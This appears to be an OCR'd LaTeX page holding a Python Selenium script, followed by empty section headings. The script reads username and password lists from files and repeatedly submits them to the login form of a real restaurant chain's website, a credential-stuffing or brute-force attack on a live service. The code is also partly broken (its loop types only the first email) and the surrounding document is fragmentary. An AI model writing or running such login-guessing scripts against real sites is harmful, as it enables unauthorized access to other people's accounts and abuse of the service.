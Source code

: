 \documentclass[]{article}
\begin{document}
\begin{lstlisting}[lenguaje =py]
import string, random, time
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
from ctypes import sizeof
ubicacionDriver = '/usr/local/bin/chromedriver'

def readUsuarios():
    usuarios = list()
    arc = open("user.txt")
    lineas = arc.readlines()
    i = 0    #driver.get('https://www.telepizza.es/')
    for lineas in lineas:
        usuarios.append(lineas)
    return usuarios

def readPasswords():
    passwords = list()
    arc = open("pass.txt")
    lineas = arc.readlines()
    i = 0
    for lineas in lineas:
        passwords.append(lineas)
    return passwords


if __name__ == "__main__":
    options = webdriver.ChromeOptions()
    options.add_argument('--start-maximized')
    options.add_argument('--disable-extensions')

    driver = webdriver.Chrome(ubicacionDriver, chrome_options=options)
    correos=readUsuarios()
    contraseñas=readPasswords()
    driver.set_window_position(1000,0)
    driver.maximize_window()
    time.sleep(1)
    driver.get('https://www.telepizza.es/account/login')
    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
    i = 0
    time.sleep(2)
    
    for contraseña in contraseñas:
        for correo in correos:

            if i == 0:
                email = driver.find_element(By.ID, 'UserName')
                email.clear()
                email.send_keys(correo)
                time.sleep(5)
                i = i + 1 
            
            passw = driver.find_element(By.ID,"Password")
            passw.clear()
            passw.send_keys(contraseña)
            time.sleep(5)
            
            driver.find_element(By.ID, "login-submit").click()
            time.sleep(2)
    driver.close()
\end{lstlisting}

\subsection{Hito IV}

\subsubsection{Chile}
\end{document}
